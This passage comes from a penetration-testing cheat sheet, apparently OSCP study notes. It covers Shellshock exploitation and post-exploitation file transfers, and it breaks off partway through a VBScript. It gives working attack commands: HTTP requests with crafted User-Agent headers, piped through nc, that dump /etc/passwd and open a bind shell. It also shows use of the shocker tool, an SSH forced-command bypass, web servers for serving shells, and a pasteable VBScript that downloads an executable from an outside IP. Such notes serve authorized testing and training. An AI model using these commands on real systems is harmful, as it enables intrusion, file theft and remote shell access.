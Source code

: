 -   Shellshock

    -   Testing for shell shock with NMap
    
    `root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip`

    -   git clone https://github.com/nccgroup/shocker

    `./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose`

    -   Shell Shock SSH Forced Command  
        Check for forced command by enabling all debug output with ssh  
        
              ssh -vvv  
              ssh -i noob noob@$ip '() { :;}; /bin/bash'

    -   cat file (view file contents)  
    
              echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    -   Shell Shock run bind shell  
    
             echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

File Transfers
============================================================================================================

-   Post exploitation refers to the actions performed by an attacker,
    once some level of control has been gained on his target.

-   Simple Local Web Servers

    -   Run a basic http server, great for serving up shells etc  
        python -m SimpleHTTPServer 80

    -   Run a basic Python3 http server, great for serving up shells
        etc  
        python3 -m http.server

    -   Run a ruby webrick basic http server  
        ruby -rwebrick -e "WEBrick::HTTPServer.new  
        (:Port => 80, :DocumentRoot => Dir.pwd).start"

    -   Run a basic PHP http server  
        php -S $ip:80

-   Creating a wget VB Script on Windows:  
    [*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

-   Windows file transfer script that can be pasted to the command line.  File transfers to a Windows machine can be tricky without a Meterpreter shell.  The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

         echo Set args = Wscript.Arguments  >> webdl.vbs
         timeout 1
         echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
         timeout 1
         echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
         timeout 1
         echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
         timeout 1
         echo xHttp.Open "GET", Url, False  >> webdl.vbs
         timeout 1
         echo xHttp.Send  >> webdl.vbs
         timeout 1
         echo with bStrm      >> webdl.vbs
         timeout 1